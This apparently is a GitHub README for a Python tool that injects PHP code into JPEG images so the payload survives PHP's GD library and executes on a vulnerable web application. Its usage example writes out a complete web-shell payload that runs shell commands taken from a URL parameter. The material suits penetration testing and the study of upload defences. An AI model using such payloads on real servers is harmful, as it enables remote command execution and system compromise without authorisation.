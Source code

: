 # php-jpeg-injector
Injects php payloads into jpeg images. Related to [this post](https://github.com/fakhrizulkifli/Defeating-PHP-GD-imagecreatefromjpeg).

# Use Case
You have a web application that runs a jpeg image through PHP's GD graphics library.

# Description
This script injects PHP code into a specified jpeg image. The web application will execute the payload if it interprets the image. Make sure your input jpeg is uncompressed!

# Usage
`python3 gd-jpeg.py [JPEG] [PAYLOAD] [OUTPUT_JPEG]`

e.g. `python3 gd-jpeg.py cat.jpeg '<?php system($_GET["cmd"]);?>' infected_cat.jpeg`

# How it works
PHP code is injected in the null/garbage (brown) space after the scan header:

![header](https://camo.githubusercontent.com/0caae5a119b1d4c0bb4aed9504ce5086301cd100/687474703a2f2f692e696d6775722e636f6d2f696c35666841612e6a7067 "scan header")

The new infected jpeg is run through PHP's gd-library. PHP interprets the payload injected in the jpeg and executes it.
